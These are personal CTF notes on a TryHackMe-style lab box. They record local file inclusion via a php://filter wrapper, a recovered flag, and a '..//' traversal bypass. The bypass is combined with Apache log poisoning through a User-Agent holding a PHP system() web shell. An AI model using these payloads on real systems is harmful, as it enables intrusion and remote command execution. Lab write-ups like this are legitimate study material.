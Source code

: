- wasted a day and gave up here - going for wrteup


- [[LFI - PHP wrapper]] this explains and this was used to get the 2nd flag

```
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```


```
┌─[glack@parrot]─[~]
└──╼ $echo "CQo8IURPQ1RZUEUgSFRNTD4KPGh0bWw+Cgo8aGVhZD4...............9ib2R5PgoKPC9odG1sPgoKCg==" | base64 -d
```


```
    //FLAG: thm{explo1t1ng_lf1}
```

- Getting a reverse shell part was based on this source code 

```
 if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
```


1. The URI must NOT contain _‘../..’_
2. The URI MUST contain _‘/var/www/html/development_test’_


used the write for this understanding and bypass


    To break this rule, we can use **../../../../../var/log/apache2/access.log** to access the logs but since it includes **../../**, the first rule is not being satisfied and hence our attack doesn’t work. To fix this we can escape the first **/** by adding another forward slash so that it becomes **..//..//..//** and so on.


Below is a discription of the bypass


---

Capture a request in burp suite on the **/test.php** page and send it to repeater. Go to repeater and **replace** both, the GET request and the User-Agent with the respective lines and then click send:

```
GET /test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log HTTP/1.1****User-Agent: <?php system($_GET[‘cmd’])?>
```

---

- so i followed the steps, got an error and tried again
- Tried changed in both and single i.e. `test.php?view` and `user-Agent` , the one without the user agent worked
